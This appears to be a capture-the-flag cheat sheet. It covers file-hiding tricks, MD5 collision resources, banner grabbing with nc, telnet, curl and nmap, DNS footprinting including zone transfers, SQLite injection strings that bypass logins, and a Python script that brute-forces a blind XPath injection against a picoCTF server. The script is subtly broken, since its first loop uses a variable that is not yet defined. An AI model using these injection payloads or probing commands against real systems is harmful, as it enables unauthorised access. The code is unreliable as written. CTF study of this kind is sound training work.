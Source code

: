 # CTF Tips & Tricks

* Flask session cookie decode: https://gist.github.com/babldev/502364a3f7c9bafaa6db
    * https://ctftime.org/writeup/11812
* MD5 Collision Generator: https://github.com/corkami/collisions
* MD5 Algorithm without padding or length: https://gist.github.com/natmchugh/fbea8efeced195a2acf2
* MD5 Collision Demo (With files): https://www.mscs.dal.ca/~selinger/md5collision/
* `echo "93bdab204067321ff131f560879db46bee3b994bf24836bb78538640f689e58f *ubuntu-20.04.2.0-desktop-amd64.iso" | shasum -a 256 --check`
* https://www.spammimic.com/decode.cgi
* https://extract.me/ (Can use to unhide sheets in excel, or just simply click unhide in excel itself)
* Can use 7z to see content of hidden protected sheets in excel file. In sharedStrings.xml. Cannot simply unhide from excel.
* MIME email file may contain more info in quote printable encoding. See raw text.
* Can use https://www.ilovepdf.com/ to extract all images from a pdf. May have hidden images in pdf.
* 7zip is very useful
* Can combine zip files with jpg/png/gif files: `copy /B pic.jpg+file.zip newfile.jpg`
    * https://www.howtogeek.com/119365/how-to-hide-zip-files-inside-a-picture-without-any-extra-software/
* NMAP Cheatsheet: https://s3-us-west-2.amazonaws.com/stationx-public-download/nmap_cheet_sheet_0.6.pdf
* Banner Grabbing
    * Can use telnet, nc, curl, nmap
    * Telnet web server:
        * `telnet <ip> 80`
        * `GET / HTTP/1.1`
    * nc Web server:
        * Connect then call `HEAD / HTTP/1.0` or `HEAD / HTTP/1.1`
    * SSH Server:
        * `nc <ip> 22`
    * TCP "Banner Grab":
        * Not really banner grabbing but can be used to find open TCP services.
        * `echo "" | nc -v -n -w1 <target IP> <port range>`
    * Curl banner grabbing:
        * `curl -l <ip>`
    * Nmap banner grabbing:
        * `nmap -sV --script=banner <target>`

Footprinting Techniques:
* Registrar Query
    * `whois <ip>`
    * https://www.easywhois.com
* DNS Query
    * BIND install: https://linuxtechlab.com/configuring-dns-server-using-bind/
    * dnsdumpster.com
    * `dig`: Domain information groper (DiG)
        * `dig axfr`: zone transfer may reveal more records. Dont know how it works...
    * `nslookup`: Query DNS for IP address of a give host
        * `nslookup <HOST> <DNS_SERVER>`
    * `host`
    * https://toolbox.googleapps.com/apps/dig/#ANY/
    * https://tools.dnsstuff.com
* Network Query
    * `traceroute <ip>`
    * https://tools.keycdn.com/traceroute
* Web Crawling
* Email Tracing
    * https://www.ip2location.com/free/email-tracer
    * https://www.wikihow.com/Trace-an-Email
* Web Scraping
    * Tools: 
        * https://www.httrack.com/page/2/en/index.html : Use to recreate the directory of a website.
        * Scrapy
* Directory Search
    * Tools:
        * Dirbuster

Whatweb

* Hash Cracking: https://crackstation.net/

sql injection
* sqlite
    * `a'||'dmin' except select * from users where username='`
        * https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Web_Gauntlet_2.md
    * `' glob '*`
        * https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Web_Gauntlet_2.md
    * `a' IS NOT 'b`
        * https://github.com/ZeroDayTea/PicoCTF-2021-Killer-Queen-Writeups/blob/main/WebExploitation/WebGauntlet2.md


xpath injection
* https://ctftime.org/writeup/27161
```python
import requests
from string import ascii_letters, digits

nodes = []  # contains the incomplete node names
complete = []  # contains complete node names
url = "http://mercury.picoctf.net:16521/"
chars = ascii_letters + digits + "{}_"  # possible characters that will be enumerated over
keyphrase = "on the right path."  # string that indicates a positive hit

def generate_payload(txt):
    return {"name": f"' or //*[starts-with(text(),'{txt}')] or '1'='", "pass": ""}
#     return {"name":"asdf", "pass":f"' or //*[starts-with(text(),'{txt}')] or '1'='"}
#     return {"name": f"' or //*[contains(.,'{txt}')] or 'x'='", "pass": ""}

# Populate nodes with first characters
for c in chars:
    x = requests.post(url, data=generate_payload(part + c))
    if keyphrase in x.text:
        nodes.append(c)

# Enumerate nodes until nothing is left
# while nodes:
for i in range(2):
    nodes_copy = nodes.copy()
    for part in nodes_copy:
        print(f"Injecting {part}...")
        done = True
        for c in chars:
            x = requests.post(url, data=generate_payload(part + c))
            if keyphrase in x.text:
                nodes.append(part + c)
                done = False
        if done:
            complete.append(part)
        nodes.remove(part)
    print(nodes)
print(complete)
```